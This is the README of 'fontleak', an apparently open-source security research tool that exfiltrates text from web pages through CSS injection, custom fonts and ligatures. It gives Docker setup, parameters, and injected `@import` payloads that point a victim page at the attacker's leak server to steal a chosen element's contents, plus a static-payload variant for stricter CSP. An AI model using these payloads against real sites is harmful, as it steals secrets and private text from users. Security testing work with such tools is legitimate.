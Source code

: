 [![License](https://img.shields.io/badge/License-MIT-blue.svg)](https://opensource.org/licenses/MIT)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/adrgs/fontleak)](https://github.com/adrgs/fontleak/releases)
[![GitHub stars](https://img.shields.io/github/stars/adrgs/fontleak)](https://github.com/adrgs/fontleak/stargazers)
[![GitHub forks](https://img.shields.io/github/forks/adrgs/fontleak)](https://github.com/adrgs/fontleak/network/members)
[![GitHub contributors](https://img.shields.io/github/contributors/adrgs/fontleak)](https://github.com/adrgs/fontleak/graphs/contributors)
[![Follow @adragos_](https://img.shields.io/twitter/follow/adragos_?style=social)](https://twitter.com/adragos_)

<p align="center">
  <img width="400" alt="fontleak logo" src="https://github.com/user-attachments/assets/69d9b715-e9fc-4bc6-8e0c-b4126f44434e" />
</p>

# fontleak

Fast exfiltration of text using CSS and Ligatures. For a detailed technical explanation, check out my [blog post](https://adragos.ro/fontleak).

## Getting Started

#### Using Docker

You can quickly get started with fontleak using Docker:

```bash
# Run the container
docker run -it --rm -p 4242:4242 -e BASE_URL=http://localhost:4242 adrgs/fontleak
```

Set the `BASE_URL` environment variable to the public URL where the site will be accessible.

> This will only setup a basic HTTP/1.1 server. Use a reverse proxy like Caddy for TLS and HTTP/2 or HTTP/3.


## Using fontleak

The fontleak URL accepts several parameters to customize its behavior:

#### Parameters
- `selector`: CSS selector that matches exactly one element in the target page. Default: `SELECTOR` env var or `script:first-of-type`
- `parent`: Parent element of the target element (options: `body` or `head`). Default: `PARENT` env var or `body`
- `alphabet`: Characters to include in the font. Default: `ALPHABET` env var or `string.printable` minus whitespace (except space)
- `timeout`: Timeout for @import url(). Default: `TIMEOUT` env var or `10` seconds
- `strip`: Strip unknown characters from the leak. Default: `true`
- `length`: Length of the leak. Default: `64`
- `prefix`: Prefix to remove (or to start counter from for Safari) for the dynamic leak. Default: empty string

#### Example Usage

Basic usage:
```html
<style>@import url("http://localhost:4242/");</style>
```

Custom selector, parent, and alphabet:
```html
<style>@import url("http://localhost:4242/?selector=.secret&parent=head&alphabet=abcdef0123456789");</style>
```

> **⚠️ Warning:** The CSS selector must match exactly one element in the target page. If the selector matches multiple elements or no elements, fontleak will fail to exfiltrate the text.

## Environment Variables

You can configure fontleak using these environment variables:

- `BASE_URL`: Base URL where the application is accessible (e.g., http://localhost:4242)
- `BASE_LEAK_URL`: Base URL where the leak is accessible for images. Default: same as BASE_URL
- `FASTAPI_LOGGING`: Enable or disable FastAPI logging. Default: "true"
- `SELECTOR`: CSS selector for target element. Default: "script:first-of-type"
- `PARENT`: Parent element (body or head). Default: "body"
- `ALPHABET`: Characters to include in the font. Default: string.printable minus whitespace
- `TIMEOUT`: Timeout for @import url(). Default: 10
- `LENGTH`: Length of the payload for static leaks. Default: 100
- `BROWSER`: Browser compatibility (all, chrome, firefox, safari). Default: "all"

## Static payload

By default, fontleak will use [sequential import chaining](https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b) to efficiently exfiltrate text. But it's not always the case that the target page CSP allows this. 

In this case, you can use the `/static` endpoint to generate a static CSS payload that only requires lax CSP for `img-src` and `font-src`.

```bash
wget http://localhost:4242/static -O payload.css
```

Which takes these additional parameters:
- `length`: Length of the payload. Default: `LENGTH` env var or `100`
- `browser`: Browser compatibility (options: `all`, `chrome`, `firefox`, `safari`). Default: `BROWSER` env var or `all`

> **⚠️ Warning:** Size of payload.css is directly proportional to the `length` and `alphabet` size. Choosing a target browser can enable certain optimizations.

Instead of unique ids, fontleak will group requests by (IP, User-Agent, Referer) pairs.

## Disclaimer

fontleak is a research project intended for educational and security testing purposes only. The author is not responsible for any misuse of this software. Users are solely responsible for ensuring they have proper authorization before using this tool in any environment. Use at your own risk.